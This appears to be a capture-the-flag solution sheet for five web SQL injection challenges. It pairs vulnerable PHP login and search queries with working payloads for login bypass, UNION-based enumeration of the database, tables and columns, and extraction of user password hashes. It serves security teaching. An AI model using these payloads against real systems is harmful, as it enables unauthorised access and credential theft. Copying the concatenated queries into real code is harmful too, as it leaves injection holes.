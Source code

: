 # WEB - SQLi Challenges

## Website down for maintenance.

# Challenge 1 - Try to login
	+ main file used = login1.php
	+ solution: anything' OR 1=1 -- //
	+ note: the query was of the form:
	$q = "SELECT * FROM users where username='".$username."' AND password = '".md5($pass)."'" ;


# Challenge 2 - Try logging in... again
	+ main file used = login2.php
	+ solution = blah') OR 1=1 -- //
	+ note: the query was of the form:
	$q = "SELECT * FROM users where (username='".$username."') AND (password = '".md5($pass)."')" ;

# Challenge 3 - Get the database name
	+ hint: Try to figure out the DB software being used. Find out how to get database details with that software
	+ main file used = searchproducts.php
	+ solution = ' union select null, null, database(), null, null -- //
	+ approach = keep trying 
		+ ' union select 1 -- //
		+ ' union select 1, 2 -- //
		+ and so on until you get an error
		+ you will then figure out the number of columns
		+ by the comment style, you should've figured out the DB software being used - viz MySQL in this case 
		+ google how to obtain DB name on MySQL through SQLi, you will come across the database() function.

# Challenge 4 - Find the table names
	+ main file used = searchproducts.php
	+ solution = ' union select null, table_name, null, null, null from information_schema.columns where table_schema=database() -- //
	+ same approach as challenge 3

# Challenge 5 - Find the password of the 5th person in md5.
	+ main file used = searchproducts.php
	+ solution = ' union select null, id, username, password, fname from users -- //
	+ approach
		+ you would've obtained the table names from the previous challenge 
		+ ' UNION SELECT column_name, null, null, null, null FROM information_schema.columns -- // will help you get the column names
		+ then execute the query stated in 'solution' and extract the password of the person corresponding to id = 5

